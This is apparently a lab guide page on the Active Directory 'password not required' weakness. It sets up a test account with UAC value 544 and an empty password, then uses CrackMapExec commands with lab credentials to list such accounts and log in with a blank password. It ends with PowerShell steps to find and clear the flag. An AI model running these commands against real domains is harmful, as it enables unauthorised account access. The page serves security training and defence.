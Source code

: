 ```yaml
---
description: >-
  It is possible that accounts have an empty password if the useraccountcontrol
  attribute contains the value PASSWD_NOT_REQ.
---
```


# Empty password

## Configuring

1. Login on `DC02` with the username `Administrator` and password `Welcome01!`.
2. Open the "Active Directory Users and Computers" administration tool on `DC02`

![](<../../.gitbook/assets/image (69) (1).png>)

3\. Click on "View" and enable "Advanced Features".

![](<../../.gitbook/assets/image (63).png>)

4\. Right click the "Users" section and select "New" and then "User". Create a new user named `bank_dev` with the password `Password01!`. Make sure to deselect "User must change password at next logon" and select "Password never expires".

![](<../../.gitbook/assets/image (47).png>)

4\. Right click the user and select "Properties". Open the tab "Attribute Editor", search for "Useraccountcontrol" and click "Edit".

![](<../../.gitbook/assets/image (57) (1).png>)

5\. Set the value to `544` and cick "OK".

![](<../../.gitbook/assets/image (46) (1).png>)

6\. Click "Apply" and "OK".

7\. Right click on `bank_dev` and select "Reset Password". Uncheck "User must change password at next logon" and make sure the Password fields are empty. Click on "OK"

![](<../../.gitbook/assets/image (22) (1) (1) (1).png>)

## Attacking

### How it works

It is **possible** that accounts have an empty password if the useraccountcontrol attribute contains the value `PASSWD_NOT_REQ`. With access to a normal domain user we could request all users with this attribute set.

### Tools

* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

### Executing the attack

1. Use the discovered credentials `john` and password `Welcome2022!` with CrackMapExec to authenticate over ldap and request all users with the value `PASSWD_NOT_REQ` set.

```
crackmapexec ldap 10.0.0.3 -u john -p Welcome2022! --password-not-required
```

![](<../../.gitbook/assets/image (6) (1) (1).png>)

2\. We already knew the user `steve` had a empty password from our initial access attacks. The `Guest` password is empty by default, but this account is also disabled by default. We can check if `bank_dev` user has a empty password just like we did earlier.

```
crackmapexec smb 10.0.0.3 -u bank_dev -p ''
```

![](<../../.gitbook/assets/image (31) (1) (1).png>)

The password is indeed empty.

## Defending

### Recommendations

* Periodically check for users with the `PASSWD_NOT_REQ` attribute and remove it.

Check for users with the attribute:

```
Get-ADUser -Filter {PasswordNotRequired -eq $true} | Select-Object samAccountName
```

Remove the attribute:

```
Set-ADAccountControl -PasswordNotRequired $false -Identity <USER>
```

Check for users with the attribute and remove the attribute:

```
Get-ADUser -Filter {PasswordNotRequired -eq $true} | Set-ADAccountControl -PasswordNotRequired $false
```

### Detection



## References

{% embed url="https://specopssoft.com/blog/find-ad-accounts-using-password-not-required-blank-password/" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}
